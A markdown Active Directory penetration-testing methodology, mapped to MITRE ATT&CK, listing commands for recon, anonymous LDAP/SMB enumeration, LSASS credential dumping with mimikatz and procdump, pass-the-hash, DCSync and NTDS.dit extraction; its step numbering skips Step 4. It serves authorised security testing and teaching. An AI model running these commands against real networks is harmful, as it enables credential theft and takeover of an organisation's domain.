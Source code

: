 # **Basic Active Directory (AD) Penetration Testing Methodology**

## **Scenario:**
You have only the **IP address of the Domain Controller (DC)** and must conduct a full Active Directory pentest. This guide includes **multiple alternative techniques for each step**, ensuring redundancy. Each method is mapped to **MITRE ATT&CK Techniques (TTPs)** where applicable.

---

# **🛠 Step 1: Information Gathering (Recon) (T1595, T1592, T1590)**
**Objective:** Identify the domain name, live hosts, users, and exposed services.

### **1.1 Identify Live Hosts & Domain Name**
- **Primary Method: DNS Reverse Lookup (T1590.005)**
  ```bash
  nslookup <DC_IP>
  ```
- **Alternative Methods:**
  - **Find domain via NetBIOS (if 137/139 open) (T1590.005):**
    ```bash
    nmblookup -A <DC_IP>
    ```
  - **Identify DC using SMB (if 445 open) (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> --shares
    ```
  - **Check SSL certificates (if 443 open) (T1590.004):**
    ```bash
    openssl s_client -connect <DC_IP>:443 | grep "CN="
    ```
  - **Discover live hosts via ICMP scan (T1595.002):**
    ```bash
    fping -a -g <IP_RANGE>
    ```
  - **Enumerate domain using nbtscan (T1590.005):**
    ```bash
    nbtscan -r <IP_RANGE>
    ```
  - **Enumerate via CrackMapExec (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> -u '' -p '' --shares
    ```

---

# **📡 Step 2: Enumerating Active Directory (No Authentication) (T1590, T1592.002, T1592.004)**
**Objective:** Extract usernames, shares, and AD structure **without credentials**.

### **2.1 Enumerate Users & Domain Info**
- **Primary Method: LDAP Anonymous Bind (T1592.002)**
  ```bash
  ldapsearch -x -H ldap://<DC_IP> -s base namingContexts
  ```
- **Alternative Methods:**
  - **Extract domain name from SMB (if 445 open) (T1592.002):**
    ```bash
    smbclient -L //<DC_IP> -N
    ```
  - **Use Kerberos brute-force with common names (T1595.002):**
    ```bash
    kerbrute userenum -d corp.local --dc <DC_IP> users.txt
    ```
  - **Check printer services (for usernames in print jobs) (T1592.002):**
    ```bash
    enum4linux -a <DC_IP>
    ```
  - **Enumerate domain SID (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomusers"
    ```
  - **Using BloodHound with SharpHound (T1592.002):**
    ```powershell
    SharpHound.exe -c All
    ```

### **2.2 Enumerate Shares & GPOs**
- **Primary Method: SMB Enumeration (T1590.002)**
  ```bash
  crackmapexec smb <DC_IP> -u '' -p '' --shares
  ```
- **Alternative Methods:**
  - **Check for readable GPO files (group policies may contain creds) (T1592.004):**
    ```bash
    smbclient //DC_IP/SYSVOL -N
    ```
  - **Search for passwords in SYSVOL (T1552.006):**
    ```bash
    find . -name "*.xml" | xargs grep -i password
    ```
  - **List accessible shares manually via SMB (T1590.002):**
    ```bash
    smbmap -H <DC_IP>
    ```
  - **Enumerate domain trust relationships via RPC (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomgroups"
    ```
  - **Using BloodHound for Trust Enumeration (T1592.002):**
    ```powershell
    Invoke-BloodHound -CollectionMethod All -Verbose -OutputDirectory C:\temp
    ```

---

# **🔑 Step 3: Gaining Initial Access (T1078.002, T1557.002, T1110.003)**
**Objective:** Obtain valid credentials for a **low-privileged user**.

### **3.1 Credential Dumping via Mimikatz (T1003.001)**
- **Primary Method (Windows Elevated CMD):**
  ```powershell
  mimikatz
  sekurlsa::logonpasswords
  ```
- **Alternative Methods:**
  - **Dump credentials from LSASS using Task Manager:**
    ```powershell
    procdump -accepteula -ma lsass.exe lsass.dmp
    ```
  - **Extracting NTLM Hashes using Impacket:**
    ```bash
    secretsdump.py -just-dc corp.local/user:password@<DC_IP>
    ```
  - **Using Rubeus for Ticket Extraction (T1558.003):**
    ```powershell
    Rubeus.exe dump /format:kirbi
    ```
  
---

# **📡 Step 5: Lateral Movement (T1550.001, T1558.002, T1021.002)**
**Objective:** Expand access to **other machines in the domain**.

### **5.1 Over-Pass-the-Hash (T1550.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  sekurlsa::pth /user:user /domain:corp.local /ntlm:<HASH>
  ```
- **Alternative Methods:**
  - **Using CrackMapExec for Lateral Movement:**
    ```bash
    crackmapexec smb <DC_IP> -u user -H <NTLM_HASH>
    ```
  - **Using Evil-WinRM:**
    ```bash
    evil-winrm -i <DC_IP> -u user -H <NTLM_HASH>
    ```
  
---

# **🏆 Step 6: Domain Controller Compromise (T1003.002, T1555.003)**
**Objective:** Gain **full control over the AD environment**.

### **6.1 DCSync Attack (T1003.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  lsadump::dcsync /domain:corp.local /user:Administrator
  ```
- **Alternative Methods:**
  - **Extracting NTDS.dit via Ntdsutil:**
    ```powershell
    ntdsutil "ac i ntds" "ifm" "create full c:\ntds" q q
    ```

